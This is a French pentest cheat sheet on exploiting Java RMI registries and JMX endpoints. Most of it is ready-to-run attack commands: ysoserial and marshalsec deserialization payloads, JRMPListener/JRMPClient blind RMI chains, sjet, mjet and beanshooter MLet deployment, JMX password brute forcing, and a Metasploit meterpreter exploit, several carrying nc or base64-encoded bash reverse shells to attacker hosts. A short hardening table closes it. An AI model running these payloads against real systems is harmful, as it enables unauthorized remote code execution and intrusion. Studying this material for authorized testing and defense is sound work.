


# Java RMI — exploitation

> [!info] **En 1 phrase**
> RMI = API Java de **calcul distribué** : un objet d'une JVM invoque des méthodes d'un objet d'une autre JVM. Le **registry** (port **1099**) désérialise des objets non fiables → **RCE** via gadgets, détournement de noms (`bind`) ou exploitation **JMX**.
>
> Source principale : **[PayloadsAllTheThings (Java RMI)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Java%20RMI)**

---

## Concept

### Le protocole



- **Registry** : annuaire qui associe un **nom** à un **stub** (`list`, `lookup`, `bind`, `rebind`, `unbind`). Écoute par défaut sur **1099/TCP**.
- **Serveur RMI** : exporte les objets. Chaque stub renvoie un **endpoint** (IP + port aléatoire) et un **ObjID**.
- **DGC** (Distributed Garbage Collector) : protocole **jrmp**, port aléatoire, libère les objets référencés à distance.

> [!info] **Pourquoi ça marche**
> Le registry et les serveurs RMI **désérialisent les arguments reçus** sans valider les classes.
> Si un **gadget** (CommonsCollections…) est dans le classpath de la JVM cible, un objet sérialisé
> malveillant déclenche une exécution de commande pendant `readObject()`.

**Quand ça s'applique** : toute application Java en réseau — RMI natif, **JMX / JMX Remote**, JNDI/RMI-IIOP, middlewares (Tomcat, WebLogic, Spring, JasperReports…) exposant un registry ou un endpoint RMI.

---

## Détection & Énumération

### nmap (scripts rmi)

```bash
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p 1099,1100,9010 TARGET -Pn -v

# 1089/tcp open  java-rmi Java RMI
# | rmi-vuln-classloader:
# |   VULNERABLE:
# |   RMI registry default configuration remote code execution vulnerability
# |     Default configuration allows loading classes from remote URLs → RCE
# | rmi-dumpregistry:
# |   jmxrmi
# |     javax.management.remote.rmi.RMIServerImpl_Stub
```

- `rmi-dumpregistry` : liste les noms enregistrés (`jmxrmi`, services métier…).
- `rmi-vuln-classloader` : signale un registry qui accepte le **classloading distant** (JVM vulnérables).

### Versions & ports

Le service s'identifie comme `java-rmi`. Piège : le registry (1099) renvoie des **ports aléatoires** pour le serveur et le DGC → scanner **toute la plage** de ports, pas seulement 1099.

### remote-method-guesser (rmg)

```bash
# Scan complet : repère les registries ET le DGC
rmg scan 172.17.0.2 --ports 0-65535
#   [HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
#   [HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
#   [HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)

# Énumération : noms + stubs (endpoints, ObjID, interfaces)
rmg enum 172.17.0.2 9010
#   - plain-server   → de.qtc.rmg.server.interfaces.IPlainServer
#       Endpoint: 172.17.0.2:39153 ObjID: [-af587e6:..., ...]
#   - legacy-service → de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub
```

### Metasploit (scanner)

```bash
use auxiliary/scanner/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
run
```

---

## Attaque sur le registry (bind / rebind / list)

- **Accès anonyme** : par défaut le registry répond à `list()` sans aucune authentification.
- **Poisoning de nom** : avec `bind`/`rebind` on **écrase un nom existant** → le prochain `lookup()` d'un client renvoie **notre stub** → le client se connecte chez nous (interception, vol de sessions, creds).
- **Rebind de noms critiques** (`jmxrmi`, services métier) pour détourner tout le trafic de l'application.

```java
// Énumération minimale (côté attaquant, JShell / Java)
import java.rmi.registry.*;
Registry reg = LocateRegistry.getRegistry("target", 1099);
for (String n : reg.list()) System.out.println(n);
Remote r = reg.lookup("plain-server");   // récupère le stub → endpoint + ObjID
```

> [!warning] `bind`/`rebind` sur le registry : l'objet passé est **sérialisé puis désérialisé** par la JVM cible → si la JVM est vulnérable, c'est aussi un **vecteur de désérialisation direct**.

---

## Deserialization via RMI

### La surface d'attaque

- Le **registry** désérialise les objets reçus dans `bind` / `rebind` / `lookup`.
- Le **serveur RMI** désérialise les arguments de **chaque méthode invoquée**.
- Si un **gadget** est dans le classpath cible (CommonsCollections, CommonsBeanutils, Groovy, Jdk7u21…), le flux sérialisé exécute une commande pendant `readObject()`.

### Conditions (versions Java)

| JVM | Registry exploitable ? |
|---|---|
| Java < 8u121 / 7u131 / 6u141 | OUI — classloading distant activé par défaut |
| Java ≥ 8u121 / JDK 9+ | classloading distant désactivé (`java.rmi.server.useCodebaseOnly=true`) — vulnérable seulement en cas de mauvaise config |

### Génération des payloads (ysoserial)

```bash
# Générer un flux sérialisé malveillant
java -jar ysoserial.jar CommonsCollections6 "nc 10.0.0.1 4444 -e /bin/sh" > payload.ser

# Chaînes classiques
CommonsCollections1     # commons-collections 3.1-3.2.1
CommonsCollections2     # commons-collections4 + commons-beanutils
CommonsCollections4     # commons-collections 4.0
CommonsCollections5     # commons-collections 3.1-3.2.1 (LazyMap + BadAttributeValueExpException)
CommonsCollections6     # commons-collections <= 3.2.1 — la plus fiable
CommonsBeanutils1       # commons-beanutils + commons-collections
Jdk7u21                 # pure JDK (7u21)
Groovy1                 # groovy runtime
```

### Attaque directe du registry

```bash
# ysoserial : bind d'un objet malveillant → désérialisation côté registry → RCE
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 172.17.0.2 1099 CommonsCollections6 "bash -c {echo,YmFz...}|{base64,-d}|{bash,-i}"
```

> [!warning] Ne fonctionne que si la JVM cible est **vulnérable** et que le gadget est présent dans son classpath.

---

## JRMPListener / Blind RMI (marshalsec)

### Le principe « la cible vient à nous »

Quand le registry n'est pas atteignable **directement** (firewall) mais qu'un autre vecteur permet d'**envoyer un objet sérialisé** à la cible (webapp Java, JMX, autre bug de désérialisation), on utilise un **connect-back** :



### Hostage du listener

```bash
# ysoserial
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFz...}|{base64,-d}|{bash,-i}"

# marshalsec (alternative)
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFz...}|{base64,-d}|{bash,-i}"
```

### Payload de déclenchement (JRMPClient)

```bash
# JRMPClient = objet sérialisé qui, une fois désérialisé,
# force la victime à se connecter au JRMPListener
java -cp ysoserial.jar ysoserial.exploit.JRMPClient 10.0.0.1 1099
```

### Blind RMI — récap de la chaîne

1. L'attaquant lance un **JRMPListener** avec un gadget.
2. Il injecte un payload **JRMPClient** (ou un bind malveillant) sur un point de désérialisation de la cible.
3. La cible se connecte au listener, reçoit le gadget, **désérialise → RCE**.

> [!tip] **Sans accès direct au 1099** : c'est LE moyen de transformer un simple bug de désérialisation Java en RCE, même quand le port RMI est filtré.

### Variante JNDI (marshalsec)

```bash
# RMI reference server pour les injections JNDI (log4shell, etc.)
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://10.0.0.1:8000/#exploit" 1099
python3 -m http.server 8000   # hoste la classe / factory exploit
```

---

## RCE via JMX (beanshooter, sjet / mjet)

### L'attaque MLet (sjet/mjet)

Cible : un service **JMX exposé via RMI** (`jmxrmi`), sans authentification. Déploiement d'un MBean malveillant :

1. On hoste un serveur HTTP avec un **fichier MLet** + un **JAR** de MBeans malveillants.
2. On crée une instance de `javax.management.loading.MLet` sur la cible.
3. On invoque `getMBeansFromURL(<url>)` → la cible télécharge le JAR et enregistre le MBean malveillant.
4. On invoque ses méthodes → **RCE**.

```powershell
# sjet (requiert Jython)
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall

# mjet (avec auth JMX)
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"
jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### beanshooter

```bash
beanshooter enum 172.17.0.2 1090                            # énumérer l'endpoint JMX
beanshooter list 172.17.0.2 9010                            # MBeans enregistrés
beanshooter info 172.17.0.2 9010                            # attributs disponibles
beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose
beanshooter brute 172.17.0.2 1090                           # bruteforce du mot de passe JMX
beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000
beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'
beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'
beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin
```

### Metasploit

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
set PAYLOAD java/meterpreter/reverse_tcp   # ou autre payload
run
```

---

## Boîte à outils

| Outil | Langage | Rôle |
|---|---|---|
| `ysoserial` | Java | gadgets + `JRMPListener` / `JRMPClient` / `RMIRegistryExploit` |
| `marshalsec` | Java | `JRMPListener`, `RMIRefServer` (JNDI), marshallers |
| `remote-method-guesser` (`rmg`) | Java | scan/éum des registries, endpoints, DGC, attaques guidées |
| `BaRMIe` | Python | énumération, attaque `bind`, désérialisation du registry |
| `beanshooter` | Java | énumération + exploitation JMX (deploy, serial, standard…) |
| `sjet` / `mjet` | Jython | RCE JMX via MLet / désérialisation |
| `nmap` | — | scripts `rmi-dumpregistry`, `rmi-vuln-classloader` |
| Metasploit | — | scanner + exploit `java_rmi_server` |

```bash
# BaRMIe (énum + bind + deser)
python3 BaRMIe.py -t TARGET_IP -ports 1099
python3 BaRMIe.py -t TARGET_IP -enum
python3 BaRMIe.py -t TARGET_IP -bind
python3 BaRMIe.py -t TARGET_IP -deser
```

---

## Détection & Défense

| Mesure | Détail |
|---|---|
| **Pas d'exposition publique** | Registry (1099) et DGC/ports aléatoires restent **internes** — jamais exposés sur Internet |
| **Filtrage réseau / firewall** | allowlist des IP clientes, segmentation, blocage du 1099 + ports hauts RMI |
| **Classloading distant** | `-Djava.rmi.server.useCodebaseOnly=true` (défaut depuis 8u121) |
| **Patcher les JVM** | CVE-2013-0422 & fixes 8u121 / 7u131 / 6u141 ; appliquer les Critical Patch Updates Oracle |
| **Authentifier JMX** | mot de passe + TLS obligatoires ; désactiver JMX remote si non utilisé |
| **Désérialisation** | retirer les libs gadgets du classpath, configurer `jdk.serialFilter` / `ObjectInputFilter` |
| **Registry durci** | restreindre `bind`/`rebind` (SecurityManager, callbacks), surveiller les noms modifiés |
| **Surveillance** | logs des connexions vers 1099/ports RMI, bind anormaux, trafic sortant vers des listeners inconnus |

---

## Tips & Pièges

> [!tip] **Ordre logique d'attaque**
> 1. `nmap -sV --script rmi-dumpregistry` → 2. `rmg scan` (tous ports : registry + DGC) →
> 3. `rmg enum` / `BaRMIe -enum` (noms + endpoints) → 4. tester la **désérialisation** (gadgets, blind RMI) →
> 5. si `jmxrmi` → beanshooter / sjet / mjet → 6. Metasploit en secours.

> [!warning] **Registry ≠ serveur RMI ≠ DGC**
> Le 1099 n'est que l'annuaire. Le **stub** renvoie un **port aléatoire** (le serveur) et le DGC écoute
> aussi sur un port aléatoire (jrmp). Scanner uniquement 1099 = rater la plus grande partie de la surface.

> [!warning] **Versions Java = tout**
> La désérialisation du registry ne marche que sur JVM **< 8u121 / 7u131 / 6u141** (classloading distant).
> Sur JVM récentes : blind RMI (JRMPListener), JMX mal configuré, ou gadgets via d'autres endpoints.

> [!warning] **Gadget ≠ commande**
> Toutes les chaînes ysoserial ne marchent pas partout : elles dépendent de la **version exacte de la lib**
> dans le classpath cible. `CommonsCollections6` est le plus fiable ; toujours tester plusieurs chaînes.
> ysoserial requiert **Java 8** ; certaines chaînes sont cassées sur Java 11+.

> [!warning] **Blind RMI ≠ exploitation directe**
> `JRMPClient` est un **payload à injecter ailleurs** (autre bug de désérialisation, JMX…), pas un outil
> de connexion directe. Le `JRMPListener` doit rester **actif** pendant toute la durée de l'attaque.

> [!tip] **Attaque MLet (JMX)** : nécessite **pas d'authentification JMX** + un serveur HTTP contrôlé
> par l'attaquant qui hoste le MLet et le JAR. `beanshooter serial` combine désérialisation et JMX.

---

## Liens

- [[Insecure Deserialization| Deserialization]]
- [[02 - Scan & Énumération| Scan]]
- → Note complète : [[04 - Exploitation Réseau| Exploitation Réseau]]
- Source : [PayloadsAllTheThings — Java RMI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Java%20RMI)
